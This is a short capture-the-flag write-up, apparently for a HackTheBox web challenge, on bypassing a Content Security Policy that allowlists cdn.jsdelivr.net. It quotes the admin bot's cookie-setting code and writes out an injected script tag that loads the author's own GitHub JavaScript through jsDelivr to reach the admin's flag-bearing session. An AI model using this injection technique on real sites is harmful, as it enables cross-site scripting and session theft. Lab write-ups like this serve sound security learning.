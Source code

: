 # Cursed Secret Party

We start on this web page:

<figure><img src="../../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We capture the request and see that it looks like this:

<figure><img src="../../../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

In the response we can see a CSP, so we head to [https://csp-evaluator.withgoogle.com/](https://csp-evaluator.withgoogle.com/) and look to see if the CSP is safe:

<figure><img src="../../../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

the&#x20;

script-src is not safe according to the website&#x20;

```
Host allowlists can frequently be bypassed. Consider using 'strict-dynamic' in combination with CSP nonces or hashes.
```

on top of that The cdn.jsdelivr.net host is whitelisted to load JavaScript files. JSDeliver is a free CDN that allows for loading any JavaScript files hosted in NPM or GitHub

in the bot.js file i find the following line to show the flag:&#x20;

```
	let token = await JWTHelper.sign({ username: 'admin', user_role: 'admin', flag: flag });
```

```
const visit = async () => {
    try {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();

		let token = await JWTHelper.sign({ username: 'admin', user_role: 'admin', flag: flag });
		await page.setCookie({
			name: 'session',
			value: token,
			domain: '127.0.0.1:1337'
		});

		await page.goto('http://127.0.0.1:1337/admin', {
			waitUntil: 'networkidle2',
			timeout: 5000
		});

		await page.goto('http://127.0.0.1:1337/admin/delete_all', {
			waitUntil: 'networkidle2',
			timeout: 5000
		});

		setTimeout(() => {
			browser.close();
		}, 5000);
```

```
<script src="https://github.com/felixbillieres/HTBjsdelivryexploit/blob/main/test.js"> </script>
```

the syntax to create a jsDeliver file is [https://cdn.jsdelivr.net/gh/\<USERNAME>/\<REPO>@\<BRANCH>/\<PATH\_TO\_FILE>\
](https://cdn.jsdelivr.net/gh/%3CUSERNAME%3E/%3CREPO%3E@%3CBRANCH%3E/%3CPATH_TO_FILE%3E) so i adapt it to my repo:

[https://cdn.jsdelivr.net/gh/felixbillieres/HTBjsdelivryexploit@main/test.js](https://cdn.jsdelivr.net/gh/felixbillieres/HTBjsdelivryexploit@main/test.js)-- -

<figure><img src="../../../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
